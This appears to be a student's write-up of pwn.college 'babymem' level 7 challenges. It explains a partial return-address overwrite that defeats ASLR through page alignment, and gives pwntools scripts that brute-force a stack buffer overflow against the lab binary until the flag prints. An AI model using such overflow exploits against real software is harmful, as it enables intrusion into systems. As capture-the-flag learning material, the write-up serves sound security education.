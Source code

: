 -The important information:

**Overwriting the entire return address is fine when we know
the whole address, but here, we only really know the last three nibbles.
These nibbles never change, because pages are aligned to 0x1000.
This gives us a workaround: we can overwrite the least significant byte
of the saved return address, which we can know from debugging the binary,
to retarget the return to main to any instruction that shares the other 7 bytes.
Since that last byte will be constant between executions (due to page alignment), this will always work.
If the address we want to redirect execution to is a bit farther away from
the saved return address, and we need to write two bytes, then one of those
nibbles (the fourth least-significant one) will be a guess, and it will be
incorrect 15 of 16 times.
This is okay: we can just run our exploit a few times until it works (statistically, after 8 times or so).
One caveat in this challenge is that the win_authed() function must first auth:**

- I think we can check the number of nibbles by using `objdump`, it also search for the address of the instruction after the condition to bypass checking.

**My script:**
```
from pwn import *
r = process('/challenge/babymem_level7.0')
r.recvuntil(b'Payload size: ')
r.sendline(b'58')
r.recvuntil(b'Send your payload (up to 58 bytes)!')
r.sendline(b'\x00'*56 + 0x1718.to_bytes(2, 'little'))
r.interactive()
```
-It takes me several times to get the flag, so I will do something smarter.

```
from pwn import *
while True:
    r = process('/challenge/babymem_level7.0')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'58')
    r.recvuntil(b'Send your payload (up to 58 bytes)!')
    r.sendline(b'\x00'*56 + 0x1718.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```


# 7. Level 7.1:
-This requires a similar request in level 7.0, so we will do it step by step to understand more.
- First: `objdump -d -M intel /challenge/babymem_level7.1`
